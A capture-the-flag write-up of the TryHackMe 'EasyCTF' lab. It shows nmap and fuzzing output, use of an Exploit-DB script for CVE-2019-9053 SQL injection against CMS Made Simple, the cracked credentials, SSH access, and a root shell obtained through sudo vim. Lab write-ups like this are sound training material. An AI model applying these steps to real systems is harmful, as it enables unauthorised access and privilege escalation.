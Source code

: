 ```yaml
---
title: "EasyCTF"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="simple.png" alt="simple" style="width: 200px;" >}}

## Enumeraion

```bash
PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.226.203
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCj5RwZ5K4QU12jUD81IxGPdEmWFigjRwFNM2pVBCiIPWiMb+R82pdw5dQPFY0JjjicSysFN3pl8ea2L8acocd/7zWke6ce50tpHaDs8OdBYLfpkh+OzAsDwVWSslgKQ7rbi/ck1FF1LIgY7UQdo5FWiTMap7vFnsT/WHL3HcG5Q+el4glnO4xfMMvbRar5WZd4N0ZmcwORyXrEKvulWTOBLcoMGui95Xy7XKCkvpS9RCpJgsuNZ/oau9cdRs0gDoDLTW4S7OI9Nl5obm433k+7YwFeoLnuZnCzegEhgq/bpMo+fXTb/4ILI5bJHJQItH2Ae26iMhJjlFsMqQw0FzLf
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM6Q8K/lDR5QuGRzgfrQSDPYBEBcJ+/2YolisuiGuNIF+1FPOweJy9esTtstZkG3LPhwRDggCp4BP+Gmc92I3eY=
|   256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2I73yryK/Q6UFyvBBMUJEfznlIdBXfnrEqQ3lWdymK
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
.htaccess               [Status: 403, Size: 294, Words: 22, Lines: 12]
[Status: 200, Size: 11321, Words: 3503, Lines: 376]
.hta                    [Status: 403, Size: 289, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 294, Words: 22, Lines: 12]
index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376]
robots.txt              [Status: 200, Size: 929, Words: 176, Lines: 33]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12]
simple                  [Status: 301, Size: 309, Words: 20, Lines: 10]
```

They say its easy

`robots.txt` is written by 'mike'
fuzzing show a simple page with 301 code...we visited and got a simple page made with cms made simple (CMSMS)
`This site is powered by CMS Made Simple version 2.2.8`

okay then...one of the pages say

```text
To get to the Administration Console you have to login as the administrator (with the username/password you mentioned during the installation process) on your site at http://yourwebsite.com/cmsmspath/admin. If this is your site click here to login.
```

lets google

Actually...found alot of cve that matches this version...but time-based sqli `CVE-2019-9053` was or best match
There is an exploit from exploitdb provided...a python script we are gonna use
Took me a bit to fix the script and make it work with python3 (I could just use python2 though)

I had to :

- change shebang line on top to 'python3' instead of 'python'
- add parenthesis to the print statements
- fix an error with md5 (added encode UTF-8 before the hexdigest) in crack_password function
- made sure to point -u argument to the simple cms path...like http://ip_address/simple
- and the most frustrating the TIME variable! due to my stupid slow internet I had to increase the variable to 20 to have results and it obviously took me waaaay longer

Anyway I got results

```bash
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

we ssh as mitch (remember the port is unusual -p 2222)

And we get right into business!
`$ cat user.txt`

## Priilege Escalation

```bash
$ sudo -l
User mitch may run the following commands on Machine:
(root) NOPASSWD: /usr/bin/vim
```

OH NO NOT VIM...hey but wait..we can run commands in vim

then its easy peazy

`sudo vim`

Then in vim we do:

```bash
:!/bin/bash
```

Ànd its over

```bash
root@Machine:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Fastest privEsc in the west

```bash
root@Machine:/root# cat root.txt
```

its indeed an easy ctf...but its always fun to do

glhf!
